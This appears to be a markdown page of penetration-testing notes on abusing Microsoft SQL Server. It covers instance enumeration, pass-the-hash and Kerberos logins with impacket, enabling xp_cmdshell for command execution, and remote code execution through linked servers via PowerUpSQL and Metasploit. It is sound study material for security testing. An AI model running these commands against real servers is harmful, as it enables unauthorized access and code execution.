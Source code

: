 ```yaml
---
label: MSSQL Abuse
disabled: true
---
```


# MSSQL Abuse

## MSSQL Authentication

There are two options of authentication settings possible to set in SQL Server:

1. Windows Authentication
2. Windows Authentication + SQL Server Authentication (mixed)

**SQL Server Authentication** involves setting up a classic login and password for the user's DB. During setup the default `sa` account is created and password must be set. The explicitly provided user’s credentials are validated through the information stored in the master database. It's way more limited than Windows Authentication and it's not recommended approach.

In **Windows authentication**, the user should first authenticate himself within AD domain. SQL Server authenticates users through the Windows security token. It doesn't require to provide credentials explicitly. Windows Authentication is the **default authentication method** when an SQL Server is installed.

## Enumeration

Windows (PowerUpSQL module):

```powershell
# Enumerate SQL servers in the current domain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo
```

Linux:

```bash
# Ask for SQL instances running on the target host
impacket-mssqlinstance $target_host
```

## Connection

After connecting to MSSQL Server, we are able to execute SQL Queries. This often involves the ability to execute code on the system. [Full list of further exploitation here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

> **NOTE**: It might be worth to check different domain credentials to verify which account has access to MSSQL Server.

Windows (PowerUpSQL module):

```powershell
# Execute SQL query using SQL Server Auth
Get-SQLQuery -Username $user -Password $password -Instance $SQL_Server_FQDN -Query "$mssql_query"

# Execute SQL query using Windows Auth
Get-SQLQuery -Instance $SQL_Server_FQDN -Query "$mssql_query"
```

Linux:

```bash
# Using SQL Server Authentication
impacket-mssqlclient $user:$password@$host

# Using Windows Auth with password
impacket-mssqlclient -windows-auth $domain/$user:$password@$host

# Using Windows Auth with NT hash
impacket-mssqlclient -windows-auth $domain/$user@$host -hashes :$nt_hash

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-mssqlclient $hostname -k -no-pass -dc-ip $dc_ip
```

## Security checks

```bash
# Perform multiple security checks (credentials required)
msfconsole
> use admin/mssql/mssql_enum
```

## Command Exection

Functions like `xp_cmdshell` are disabled in Microsoft SQL Server by default. If a user has appropriate permission, it can enable these features.

```sql
-- Reconfigure MSSQL settings
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute command
EXECUTE xp_cmdshell 'whoami';
```

## Linked servers

Any user regardless of their privilege level is allowed to use the preconfigured database links.

Windows (PowerUpSQL module):

```powershell
# Enumerate database links
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Verbose

# RCE with Windows Auth (current security contex)
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Query "exec master..xp_cmdshell 'whoami'"

# RCE with SQL Server Auth
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Username $username $password $password -Query "exec master..xp_cmdshell 'whoami'"


Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
```

Linux:

```bash
msfconsole
> use exploit/windows/mssql/mssql_linkcrawler
> set rhost $SQL_Server_IP
> set username $username
> set password $password
```

{/*TODO: SVC hash stealing*/}

## References

- [Netspi, *SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!*](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Quest, *SQL Server authentication vs. Windows authentication: Which to use and when*](https://blog.quest.com/sql-server-authentication-vs-windows-authentication-which-to-use-and-when/)
